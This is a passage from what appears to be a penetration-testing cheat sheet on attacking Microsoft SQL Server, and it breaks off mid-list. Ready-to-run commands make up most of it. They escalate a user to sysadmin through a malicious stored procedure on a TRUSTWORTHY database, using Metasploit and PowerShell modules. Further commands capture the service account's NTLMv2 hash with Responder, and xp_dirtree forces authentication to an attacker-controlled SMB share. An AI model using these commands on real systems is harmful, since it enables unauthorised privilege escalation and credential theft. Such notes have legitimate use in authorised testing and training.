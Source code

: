     ```c
    USE <trustworthy_db>
    CREATE PROCEDURE sp_elevate_me
    WITH EXECUTE AS OWNER
    AS
    EXEC sp_addsrvrolemember 'USERNAME','sysadmin'
    ```
5.  **Execute stored procedure to get sysadmin role:**

    ```c
    USE <trustworthy_db>
    EXEC sp_elevate_me
    ```
6.  **Verify your user is a sysadmin:**

    ```c
    SELECT is_srvrolemember('sysadmin')
    ```

**Using Metasploit**

*   **Metasploit:**

    ```bash
    msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
    ```

**Using PowerShell**

*   **PowerShell:**

    ```powershell
    Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
    Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
    ```

#### Capture MSSQL Service Hash

* **Tool:** \[\[SQLCMD]]
* We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server. You should start a SMB server to capture the hash used in the authentication (Impacket-SMBServer or Responder for example).

1.  **Capture hash:**

    ```bash
    sudo responder -I tun0
    sudo impacket-smbserver share ./ -smb2support
    msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
    ```
2.  **XP\_DIRTREE Hash Stealing:**

    ```c
    1> EXEC master..xp_dirtree '[\\10.10.110.17\share\](file://10.10.110.17/share/)'
    2> GO
    ```
3.  **XP\_SUBDIRS Hash Stealing:**
